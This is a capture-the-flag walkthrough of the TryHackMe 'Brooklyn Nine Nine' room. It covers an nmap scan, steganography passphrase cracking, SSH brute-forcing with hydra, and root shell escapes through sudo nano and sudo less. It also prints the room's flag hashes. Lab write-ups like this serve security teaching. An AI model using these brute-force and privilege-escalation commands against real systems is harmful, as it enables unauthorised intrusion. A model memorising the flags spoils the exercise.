 ###### This room is aimed for beginner level hackers but anyone can try to hack this box. 
Room: https://tryhackme.com/room/brooklynninenine
##

**sudo nmap** -sS -sV xx.xx.xxx.xx
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Method 1  

We can access the web page hosted on the machine by navigating to the machine IP.  
Inspecting the page source code, we get a hint.  
```
<!-- Have you ever heard of steganography? -->
```

After we download the background image, we see that running steghide with no passphase returns us an error.  
```
steghide: can not uncompress data. compressed data is corrupted.
```

We can run **stegcracker** to bruteforce possible passphrases using a wordlist.  
**stegcracker** brooklyn99.jpg
```
Successfully cracked file with password: admin
```
After using steghide with the admin passphase, we get the data extracted to a file called note.txt.  
**steghide** extract -sf brooklyn99.jpg

Contents of **note.txt**
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

The next step is to connect to the machine using the ssh credentials we've got.    

**ssh** holt@xx.xx.xxx.xx using the password found above.   

After running the **sudo -l** command, we see that we can run **nano** as root.     
According to **gtfobins**, we can exploit this to get permanent root access using the following commands  
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##
#### Method 2

There's a FTP server running on the target machine that supports anonymous login. (credentials: anonymous:anonymous)  
By connecting on the FTP server, we get access to a file called **note_to_jake.txt**.  
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

This note reveals us 3 possible users: amy, jake and holt.   
However, Jake's password seems weak so we can try to bruteforce the ssh credentials.  

**sudo hydra** -l jake -P /usr/share/wordlists/rockyou.txt ssh   
```
[22][ssh] host: 10.10.105.10   login: jake   password: 987654321
```

After connecting to the target machine using jake's credentials, we see that we have acces to the **less** command as sudo.  
According to **gtfobins**, we can exploit this using the following commands:
```
sudo less /etc/profile
!/bin/sh
```
##


##
The user flag is located in holt's home directory and is **ee11cbb19052e40b07aac0ca060c23ee**.
The root flag is located at /root directory and is **63a9f0ea7bb98050796b649e85481845**
